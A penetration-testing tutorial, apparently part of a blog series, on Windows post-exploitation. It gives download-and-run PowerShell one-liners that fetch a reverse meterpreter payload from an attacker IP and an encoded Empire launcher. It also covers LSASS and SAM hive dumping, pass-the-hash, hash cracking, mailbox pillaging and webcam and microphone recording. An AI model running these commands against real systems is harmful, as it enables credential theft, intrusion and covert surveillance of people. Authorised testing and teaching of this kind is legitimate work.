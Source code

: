 *********************************************************
Infrastruture PenTest Series : Part 4 - Post Exploitation
*********************************************************

From the previous post, we learned how to have authenticated remote shell in windows, in this post, we will have a look around of how to **gather credentials after getting a remote shell**. We would also have a look how to have a **High-Impact post exploitation** which leaves an impact to the higher mangagement for the organization. In **Appendix-I : Windows Credentials**, We have explained the concepts about authentication, credentials and authenticators, credential storage, authentication protocols, logon types.

Gathering Windows Credentials
=============================

Once we have administrative remote shell, our next task is to gather all the passwords from Security Accounts Manager (SAM) database, Local Security Authority Subsystem (LSASS) process memory. Domain Active Directory Database (domain controllers only), Credential Manager (CredMan) store or LSA Secrets in the registry and get all the passwords ( clear-text or hashed ). A lot of stuff has already been mentioned at `Obtaining Windows Passwords <http://netsec.ws/?p=314>`_ and `Dumping Windows Credential <https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/>`_ and Bernardo Blog Dump Windows password hashes efficiently `Part1 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes.html>`_ , `Part2 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_16.html>`_, `Part3 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_20.html>`_, `Part4: <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_21.html>`_, `Part5 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_28.html>`_ and `Part6 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_29.html>`_.

We have tried to combine all the methods in one post. (A lot of stuff has also been not mentioned such fgdump, pwdump etc.). For all methods, check `Credential Dumping <https://attack.mitre.org/wiki/Technique/T1003>`_ on ATT&CK. 

So, back to credential dumping after getting a remote shell, there are multiple methods to do the following:

* Get metasploit meterpreter by using Web Delivery method and run mimikatz
* Get powershell empire agent by using powershell launcher string and run mimikatz
* Execute Windows Credential Editor ( WCE )
* Dumping Local Security Authority Subsystem Service
* Dumping Registry Hives
* Dumping System/ Security / SAM File
* Virtual Machine Snapshots and Suspended States - Vmss2core

Metasploit Web Delivery
-----------------------

`Metasploit Web Delivery <https://www.offensive-security.com/metasploit-unleashed/web-delivery/>`_ : Metasploit’s Web Delivery Script is a versatile module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine. This module has a powershell method which generates a string which is needed to be executed on remote windows machine.

::

  msf > use exploit/multi/script/web_delivery 
  msf exploit(web_delivery) > show targets 

  Exploit targets:
  
     Id  Name
     --  ----
     0   Python
     1   PHP
     2   PSH  
  
  
  msf exploit(web_delivery) > set target 2
  target => 2
  msf exploit(web_delivery) > set payload windows/x64/meterpreter/reverse_https 
  payload => windows/x64/meterpreter/reverse_https
  msf exploit(web_delivery) > set lhost 14.97.131.138
  lhost => 14.97.131.138
  msf exploit(web_delivery) > run 
  [*] Exploit running as background job.

  [*] Started HTTPS reverse handler on https://14.97.131.138:8443
  msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/uMOKs6wtlYL
  [*] Local IP: http://14.97.131.138:8080/uMOKs6wtlYL
  [*] Server started.
  [*] Run the following command on the target machine:
  powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');

When the following command (when their is no proxy)

::

  powershell.exe -nop -w hidden -c $X=new-object net.webclient;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');

or (when there is proxy)

::

  powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');
 

is executed on the windows remote machine, we should get a meterpreter.

::

  Delivery web_delivery payload
  meterprerter>

Once we have got the meterpreter, we can use mimikatz or kiwi to dump all the credentials.

Powershell Empire
-----------------

`Powershell Empire agent <https://www.powershellempire.com/>`_ : Empire is a pure PowerShell post-exploitation agent built on cryptologically-secure communications and a flexible architecture. Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from key loggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.

After creating a listener, we just need to create a launcher using stager:

::

 (Empire: listeners) > usestager launcher 
 (Empire: stager/launcher) > set Listener test
 (Empire: stager/launcher) > generate
 powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AGUAbQAuAE4ARQBUAMAA7ACQAdwBDAD0ATgBFAFcALQBPAGIASgBlAGMAVAAgAFMAeQBTAFQAZQBNAC4ATgBlAHQALgBXAEUAQgBDAGwASQBFAG4AVAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAG*snip*4AOQA3AC4AMQAzADEALgAxADMAOAA6ADgAMAA4ADAALwBpAG4AZABlAHgALgBhAHMAcAAiACkAKQApAHwAJQB7ACQAXwAtAEIAWABPAFIAJABLAFsAJABJACsAKwAlACQASwAuAEwAZQBOAEcAdABIAF0AfQA7AEkARQBYACAAKAAkAEIALQBKAG8ASQBOACcAJwApAA==

When the above command is executed on the windows remote shell, we should be able to get a powershell agent

::

 (Empire) > [+] Initial agent 2FTFYMKDFSSFS from 192.168.42.5 now active


Sometimes the above two will fail to work, in which case, we revert to the old techniques:

Dump Lsass.exe (Local Security Authority Subsystem Service)
-----------------------------------------------------------

Procdump
^^^^^^^^

This method has been mentioned `Grabbing Passwords from Memory using Procdump and Mimikatz <https://cyberarms.wordpress.com/2015/03/16/grabbing-passwords-from-memory-using-procdump-and-mimikatz/>`_ , `How Attackers Extract Credentials (Hashes) From LSASS <https://adsecurity.org/?p=462>`_ , `Mimikatz Minidump and mimikatz via bat file <http://carnal0wnage.attackresearch.com/2013/07/mimikatz-minidump-and-mimikatz-via-bat.html>`_ , `Extracting Clear Text Passwords Using Procdump and Mimikatz  <http://c0d3xpl0it.blogspot.in/2016/04/extracting-clear-text-passwords-using-procdump-and-mimikatz.html>`_ and `I'll Get Your Credentials ... Later! <http://www.fuzzysecurity.com/tutorials/18.html>`_

* First, upload the `ProcDump.exe <https://technet.microsoft.com/en-us/sysinternals/dd996900.aspx>`_ to the remote computer by using smb, windows explorer.

* Second, from the remote shell, execute

 ::

   C:\Windows\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp     => For 32 bit system
   C:\Windows\temp\procdump.exe -accepteula -ma -64 lsass.exe lsass.dmp => For 64 bit system

* Download the lsass.dmp and use mimikatz to get the passwords.

Powershell Out-MiniDump
^^^^^^^^^^^^^^^^^^^^^^^

This method is similar to the procdump using powershell. Instead of procdump, we utilize powershell `Out-MiniDump.ps1 <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Out-Minidump.ps1>`_ from PowerSploit

* Launch PowerShell and `dot source <http://ss64.com/ps/source.html>`_ function from the Out-Minidump.ps1

 ::
   
  . c:\path\to\Out-Minidump.ps1

* Create dump of the process using this syntax:

 ::

   Get-Process lsass | Out-Minidump -DumpFilePath C:\Windows\Temp

Registry Hives
--------------

Get a copy of the SYSTEM, SECURITY and SAM hives and download them back to your local system:

::

 C:\> reg.exe save hklm\sam c:\temp\sam.save
 C:\> reg.exe save hklm\security c:\temp\security.save
 C:\> reg.exe save hklm\system c:\temp\system.save

Get the password hashes of the local accounts, the cached domain credentials and the LSA secrets in a single run with Impacket secretsdump.py

::

 $ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
 Impacket v0.9.11-dev - Copyright 2002-2013 Core Security Technologies

 [*] Target system bootKey: 0x602e8c2947d56a95bf9cfxxxxxxxxxxx
 [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
 admsys  :500 :aad3b435b51404eeaad3b435b51404ee:3e24dcead23468ce597d68xxxxxxxxxx:::
 Guest   :501 :aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59dxxxxxxxxx:::
 support :1000:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b5xxxxxxxxx:::
 [*] Dumping cached domain logon information (uid:encryptedHash:longDomain:domain)
 adm2:6ec74661650377df488415415bf10321:system1.example.com:EXAMPLE:::
 Administrator:c4a850e0fee5af324a57fd2eeb8dbd24:system2.example.COM:EXAMPLE:::
 [*] Dumping LSA Secrets
 [*] $MACHINE.ACC
 $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9adxxxxxxxxxx

Windows Credential Editor (WCE)
-------------------------------

Windows Credentials Editor (WCE) is a security tool that allows to list Windows logon sessions and add, change, list and delete associated credentials (e.g.: LM/NT hashes, Kerberos tickets and cleartext passwords).

The tool allows users to:

* Perform Pass-the-Hash on Windows
* 'Steal' NTLM credentials from memory (with and without code injection)
* 'Steal' Kerberos Tickets from Windows machines
* Use the 'stolen' kerberos Tickets on other Windows or Unix machines to gain access to systems and services
* Dump cleartext passwords stored by Windows authentication packages


**Examples**

List NTLM credentials in memory
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

By default, WCE lists NTLM credentials in memory, no need to specify any options.

::

 C:\Users\test>wce.exe
 WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
 Use -h for help.
 
 theuser:amplialabs:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537 

Create a new logon session 
^^^^^^^^^^^^^^^^^^^^^^^^^^
Create a new logon session and launch a program with new NTLM credentials?

::

  wce.exe -s <username>:<domain>:<lmhash>:<nthash> -c <program>

Example:

::
 
  C:\Users\test>wce.exe -s testuser:amplialabs:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537 -c cmd.exe
 
  WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
  Use -h for help.
 
  Changing NTLM credentials of new logon session (000118914h) to:
  Username: testuser
  domain: amplialabs
  LMHash: 01FC5A6BE7BC6929AAD3B435B51404EE
  NTHash: 0CB6948805F797BF2A82807973B89537
  NTLM credentials successfully changed!
 
At this point, a new cmd.exe instance will be launched and network connections using NTLM initiated from that instance will use the NTLM credentials specified. 
 
Write hashes obtained by WCE to a file?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::
 
  C:\>wce -o output.txt
  WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
  Use -h for help.
 
  C:\>type output.txt
  test:AMPLIALABS:01020304050607080900010203040506:98971234567865019812734576890102
 
Dump logon cleartext passwords with WCE?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The -w switch can be used to dump logon passwords stored in cleartext by the Windows Digest Authentication package. For example:
 
::
 
  C:\>wce -w
  WCE v1.3beta (Windows Credentials Editor) - (c) 2010,2011,2012 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity com)
  Use -h for help.
  
  test\MYDOMAIN:mypass1234
  NETWORK SERVICE\WORKGROUP:test
  
`This <http://www.youtube.com/watch?v=tJ0VJVrhwTE&ap=%2526fmt%3d22>`_ video shows the use of the -w switch in a Windows 2008 Server

Useful Information
^^^^^^^^^^^^^^^^^^

* Cachedump obtains NTLM credentials from the Windows Credentials Cache (aka logon cache, logon information cache, etc). This cache can be disabled and it is very often disabled by network/domain/windows administrators (`see here <http://support.microsoft.com/kb/172931>`_ ). WCE will be able to steal credentials even when this cache is disabled.

* WCE obtains NTLM credentials from memory, which are used by the system to perform SSO; it uses a series of techniques the author of WCE developed.

* Pwdump dumps NTLM credentials from the local SAM. Let's say a administrator remote desktop to a server (compromised by attacker and can run wce). In this case, WCE would be able get the credential of Administrator ( who RDP'd ), However, pwdump will only allow you to obtain the NTLM credentials of the local SAM

The above information has been taken from `WCE FAQ <http://www.ampliasecurity.com/research/wcefaq.html>`_

System/ Security / SAM File
---------------------------

During penetration assesment, we do find VMDK file (Virtual Machine Disk), we should be able to mound vmdk file either by using Windows Explorer, VMWare Workstation or OSFMount. After mounting, we should be able to copy 

:: 

 System32/config/SYSTEM
 System32/config/SECURITY

Passwords from these file could be extracted by using `creddump7 <https://github.com/Neohapsis/creddump7>`_ 

creddump7
^^^^^^^^^

Run cachedump.py on the SYSTEM and SECURITY hives to extract cached domain creds:

::

 # ./cachedump.py
 usage: ./cachedump.py <system hive> <security hive> <Vista/7>
 
 Example (Windows Vista/7):
 ./cachedump.py /path/to/System32/config/SYSTEM /path/to/System32/config/SECURITY true
 
 Example (Windows XP):
 ./cachedump.py /path/to/System32/SYSTEM /path/to/System32/config/SECURITY false
 
 # ./cachedump.py /mnt/win/Windows/System32/config/SYSTEM /mnt/win/Windows/System32/config/SECURITY true |tee hashes
 nharpsis:6b29dfa157face3f3d8db489aec5cc12:acme:acme.local
 god:25bd785b8ff1b7fa3a9b9e069a5e7de7:acme:acme.local

If you want to crack the hashes and have a good wordlist, John can be used. The hashes are in the 'mscash2' format:

::

 # john --format=mscash2 --wordlist=/usr/share/wordlists/rockyou.txt hashes
 Loaded 2 password hashes with 2 different salts (M$ Cache Hash 2 (DCC2) PBKDF2-HMAC-SHA-1 [128/128 SSE2 intrinsics 8x])
 g0d              (god)
 Welcome1!        (nharpsis)

The examples above are taken from creddump7 Readme

Virtual Machine Snapshots And Suspended States - Vmss2core
----------------------------------------------------------

This method has been directly taken from the Fuzzy Security Blog `I'll Get Your Credentials ... Later! <http://www.fuzzysecurity.com/tutorials/18.html>`_

After compromising a target if we discover that the box hosts Virtual Machines. We can utilize `vmss2core <https://labs.vmware.com/flings/vmss2core>`_ , we can use this tool to create a coredump of a Virtual Machine, If that machine has suspended (*.vmss) or snapshot (*.vmsn) checkpoint state files. These files can be parsed by the volatility framework to extract a hashdump.

Make sure to use the appropriate version of vmss2core, in this case I needed the 64-bit OSX version.

::

 # We are working with a suspended state so we need to combine *.vmss and *.vmem. If we were
  dealing with a snapshot we would need to combine *.vmsn and *.vmem.
	
 Avalon:Tools b33f$ ./vmss2core_mac64 -W
 /Users/b33f/Documents/VMware/VMs/Win7-Testbed/Windows\ 7.vmwarevm/Windows\ 7-e7a44fca.vmss 
 /Users/b33f/Documents/VMware/VMs/Win7-Testbed/Windows\ 7.vmwarevm/Windows\ 7-e7a44fca.vmem

 vmss2core version 3157536 Copyright (C) 1998-2013 VMware, Inc. All rights reserved.
 Win32: found DDB at PA 0x2930c28
 Win32: MmPfnDatabase=0x82970700
 Win32: PsLoadedModuleList=0x82950850
 Win32: PsActiveProcessHead=0x82948f18
 Win32: KiBugcheckData=0x82968a40
 Win32: KernBase=0x82806000

 Win32: NtBuildLab=0x82850fa8
 Win: ntBuildLab=7601.17514.x86fre.win7sp1_rtm.101119-1850  # Win7 SP1 x86
 CoreDumpScanWin32: MinorVersion set to 7601
 ... 10 MBs written.
 ... 20 MBs written.
 ... 30 MBs written.
 ... 40 MBs written.
 ... 50 MBs written.
 
 [...Snip...] 
 
 Finished writing core.

After transferring the coredump back out we can let volatility do it's magic. We need to determine which OS the dump comes from for volatility to parse it correctly.

:: 

 # We can see that volatility is unable to accurately determine the OS profile, however from the vmss2core
   output above we can see that the correct profile is "Win7SP1x86". 
 	
 root@Josjikawa:~/Tools/volatility# ./vol.py imageinfo -f ../../Desktop/memory.dmp 
 
 Determining profile based on KDBG search...
 
           Suggested Profile(s) : Win7SP0x86, Win7SP1x86 (Instantiated with WinXPSP2x86)
                      AS Layer1 : IA32PagedMemoryPae (Kernel AS)
                      AS Layer2 : WindowsCrashDumpSpace32 (Unnamed AS)
                      AS Layer3 : FileAddressSpace (/root/Desktop/memory.dmp)
                       PAE type : PAE
                            DTB : 0x185000L
              KUSER_SHARED_DATA : 0xffdf0000L
            Image date and time : 2014-09-13 19:15:04 UTC+0000
      Image local date and time : 2014-09-13 21:15:04 +0200

Using the "hivelist" plugin we can now get the memory offsets for the various registry hives.

:: 

 root@Josjikawa:~/Tools/volatility# ./vol.py hivelist -f ../../Desktop/memory.dmp --profile=Win7SP1x86

 Volatility Foundation Volatility Framework 2.4
 
 Virtual    Physical   Name
 ---------- ---------- ----
 0x988349c8 0x3945a9c8 \??\C:\Users\Fubar\AppData\Local\Microsoft\Windows\UsrClass.dat
 0x87a0c008 0x27f9f008 [no name]
 0x87a1c008 0x280ed008 \REGISTRY\MACHINE\SYSTEM                # SYSTEM
 0x87a3a6b0 0x27d4b6b0 \REGISTRY\MACHINE\HARDWARE
 0x87abe5c0 0x2802a5c0 \SystemRoot\System32\Config\DEFAULT
 0x880b5008 0x231b7008 \SystemRoot\System32\Config\SECURITY
 0x88164518 0x231cc518 \SystemRoot\System32\Config\SAM         # SAM
 0x8bd019c8 0x24aec9c8 \Device\HarddiskVolume1\Boot\BCD
 0x8bdd2008 0x24772008 \SystemRoot\System32\Config\SOFTWARE
 0x8f5549c8 0x1f39e9c8 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
 0x90e83008 0x1f09f008 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
 0x955a9450 0x15468450 \??\C:\System Volume Information\Syscache.hve
 0x988069c8 0x3aa329c8 \??\C:\Users\Fubar\ntuser.dat


All that remains now is to dump the hashes. To do this we need to pass volatility's "hashdump" module the virtual memory offsets to the SYSTEM and SAM hives, which we have.

::

 root@Josjikawa:~/Tools/volatility# ./vol.py hashdump -f ../../Desktop/memory.dmp --profile=Win7SP1x86
 sys-offset=0x87a1c008 sam-offset=0x88164518
 
 Volatility Foundation Volatility Framework 2.4 
 
 Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Fubar:1001:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca:::
 user1:1003:aad3b435b51404eeaad3b435b51404ee:7d65996108fccae892d38134a2310a4e:::

These Virtual Machine coredumps can be very large (1 GB+). If transferring them over the network is not an option you can always drop a copy of volatility on the target machine. Starting from version 2.4, volatility has binary packages for Windows, Linux and OSX.

::
 
 # Binary package on OSX 10.9.4

 Avalon:Volatility-2.4 b33f$ ./volatility_2.4_x64 hashdump -f ../memory.dmp --profile=Win7SP1x86
 sys-offset=0x87a1c008 sam-offset=0x88164518 
 
 Volatility Foundation Volatility Framework 2.4
 
 Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Fubar:1001:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca:::
 user1:1003:aad3b435b51404eeaad3b435b51404ee:7d65996108fccae892d38134a2310a4e:::



High Impact Exploitation
========================

This section mainly focuses on the Post-exploitation which can be show to the higher management for impact or showing risk such as reading emails ( either by reading .pst files or having access to the exchange server ), having access to the File-servers holding confidential data, able to access employees laptop/ desktop ( watch them via webcam/ listen to the surroundings using microphones). The assumption is we have already compromised the domain administrator of the Windows Domain.

Outlook data file .pst
----------------------

A Personal Folders file (.pst) is an Outlook data file that stores your messages and other items on your computer. 

readpst ( linux ) or `readpst.exe <https://github.com/srnsw/xena/tree/master/xena/dist/winx86>`_ can be used to read pst mailbox for passwords

::

 ReadPST / LibPST v0.6.59
 Little Endian implementation being used.
 Usage: readpst [OPTIONS] {PST FILENAME}
 OPTIONS:
	-V	- Version. Display program version
	-D	- Include deleted items in output
	-M	- Write emails in the MH (rfc822) format
	-S	- Separate. Write emails in the separate format
	-e	- As with -M, but include extensions on output files
	-h	- Help. This screen
	-o <dirname>	- Output directory to write files to. CWD is changed *after* opening pst file
	-q	- Quiet. Only print error messages
	-r	- Recursive. Output in a recursive format
	-t[eajc]	- Set the output type list. e = email, a = attachment, j = journal, c = contact
	-w	- Overwrite any output mbox files

Only one of -M -S -e -k -m -r should be specified

Once readpst has converted the contents of the .pst file to plaintext documents, we can search through them using the built-in “findstr” command.

::

 findstr /s /i /m “password” *.*

 “/s” tells findstr to search through the current directory and subdirectories.
 “/i” specifies that the search should be case insensitive.
 “/m” tells findstr to output the file name rather than the file contents – if we output the contents, we may quickly be swamped with output that we’ll still have to sift through.  Depending on the amount of output, you may also quickly exceed cmd.exe’s limits.
 *.*, of course, means that we’re searching through files of any name and any type.

The above has been taken from the `Pillaging .pst Files <https://warroom.securestate.com/pillaging-pst-files/>`_ 

Pillage Exchange
----------------

This is applicable in a Microsoft environment that uses Outlook but does not back up email to .pst files.

The assumption is that we have already compromised the Exchange Administrator account on the Exchange server.  We’ll use two techniques to search through mailboxes of interest.  The first is to give ourselves full access to the targeted user’s mailbox; the second is to use built-in management features to search through a mailbox of our choosing.

Full access to the targeted user’s mailbox
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Step 1: Add a Mailbox - Create a new mailbox by using web-based Exchange Admin Center (EAC). The “mailboxes” section allows us to add a new user mailbox.  The user receiving the mailbox can come from the list of Active Directory users, or the Administrator can create a new user.

* Step 2: Mailbox Delegation - Once our new user’s mailbox is created, we can give ourselves full access to our target user mailbox. This can be done by using targeted user mailbox account options. Go to the account settings of targeted user mailbox, select the edit option, select “mailbox delegation,” and add our new user to the “Full Access” section. Once that’s complete, we can log in to our recently created mailbox with the username and password we set, then open another mailbox without being required to enter any credentials

However, when we interact with their mailbox, it’s as if they are doing it, so emails previously marked as unread will be marked as read after being opened.

Search-Mailbox cmdlet
^^^^^^^^^^^^^^^^^^^^^

* If we have access to the exchange server and Exchange Management Tools are installed on a machine, they include the Exchange Management Shell, which is a version of Powershell with specific features for administering exchange.  “Search-Mailbox,” allows us to make specific search queries on mailboxes of interest without manually giving ourselves full-access and logging in.

* However, Search-Mailbox belongs to administrators with the “Discovery Management” role.  We have to add the compromised account to the members of this role by visiting EAC and going to “permissions,” “admin roles” and editing the “Discovery Management” to add the account we compromised.

* Search-Mailbox Syntax

 ::

   Search-Mailbox -Identity “First Last” -SearchQuery “String” -TargetMailbox “DiscoveryMailbox” -TargetFolder “Folder” -LogLevel Full
   
   Identity is the Active Directory username
   SearchQuery is the string of text we’re looking for, 
   TargetMailbox is the mailbox where emails containing that string will be sent (hence the need to control a mailbox), 
   TargetFolder is the folder in that mailbox where they’ll go

Example:

::

  Search-Mailbox -Identity “Targeted User” -SearchQuery “Password” -TargetMailbox “NewMailboxCreated” -TargetFolder “Inbox” -LogLevel Full

Now we simply pop back over to the mailbox of the user we created and inspect the newly arrived email(s):

The above has been taken from `Pillage Exchange <https://warroom.securestate.com/pillage-exchange/>`_

File Servers
------------

We can get a list of file servers in the windows active directory by using Powersploit-Powerview-Get-NetFileServer funtion. Once we have the file server list, we can view the file server contents utilizing Windows explorer. We can also mount the file server using mount.cifs

::

 mount.cifs //{ip address}/{dir} /mnt/mountdirectory --verbose -o "username=foo,password=bar,domain=domainname,ro"

Active Directory Database Credentials
-------------------------------------

Sean Metcalf has written a brillant blog `How Attackers Dump Active Directory Database Credentials <https://adsecurity.org/?p=2398>`_ 

The above blog covers:

* Grabbing the ntds.dit file locally on the DC using NTDSUtil’s Create IFM
* Pulling the ntds.dit remotely using VSS shadow copy
* Pulling the ntds.dit remotely using PowerSploit’s Invoke-NinjaCopy (requires PowerShell remoting is enabled on target DC).
* Dumping Active Directory credentials locally using Mimikatz (on the DC).
* Dumping Active Directory credentials locally using Invoke-Mimikatz (on the DC).
* Dumping Active Directory credentials remotely using Invoke-Mimikatz.
* Dumping Active Directory credentials remotely using Mimikatz’s DCSync.

The methods covered above require elevated rights since they involve connecting to the Domain Controller to dump credentials.

The statement "We do have all the users password hashes of your organization and X number of passwords were cracked in X number of days" make a good impact for your client.

C-Level Executive - Webcam, Microphone, User Activity Recording
---------------------------------------------------------------

Metasploit provide a post exploitation module for taking snapshots from webcam and recording sounds from microphone. Imagine, the impact of informing the client that we can view a person live-feed or record sounds from a meeting room without being present in the same room. Maybe in the meeting there were discussing about passwords, company secrets, operations, future plannings, spendings, etc.

Webcam
^^^^^^

This module will allow the user to detect installed webcams (with the LIST action) or take a snapshot (with the SNAPSHOT) action.

::

  msf > use post/windows/manage/webcam
  msf post(webcam) > info 

  Name: Windows Manage Webcam
  Module: post/windows/manage/webcam

  Available actions:
  Name      Description
  ----      -----------
  LIST      Show a list of webcams
  SNAPSHOT  Take a snapshot with the webcam

  Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  INDEX    1                no        The index of the webcam to use
  QUALITY  50               no        The JPEG image quality
  SESSION                   yes       The session to run this module on.

Record_Mic
^^^^^^^^^^

This module will enable and record your target's microphone.

::

   msf post(webcam) > use post/multi/manage/record_mic
   msf post(record_mic) > info 

   Name: Multi Manage Record Microphone
   Module: post/multi/manage/record_mic

   Basic options:
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DURATION  5                no        Number of seconds to record
   SESSION                    yes       The session to run this module on.

Sinn3r has written a blog `The forgotten spying feature: Metasploit's Mic Recording Command <https://community.rapid7.com/community/metasploit/blog/2013/01/23/the-forgotten-spying-feature-metasploits-mic-recording-command>`_ which can provide more information. Once, we have recorded the meetings, the sound WAV files can be converted to text using speech to text api.

User Activity
^^^^^^^^^^^^^

If we have a meterpreter from a windows machine, we can use Problem Steps Recorder ( PSR )(Microsoft In-built tool) to captures screenshots and text descriptions of what a user is doing on their system.

::

 psr.exe [/start |/stop][/output <fullfilepath>] [/sc (0|1)] [/maxsc <value>]
 [/sketch (0|1)] [/slides (0|1)] [/gui (0|1)]
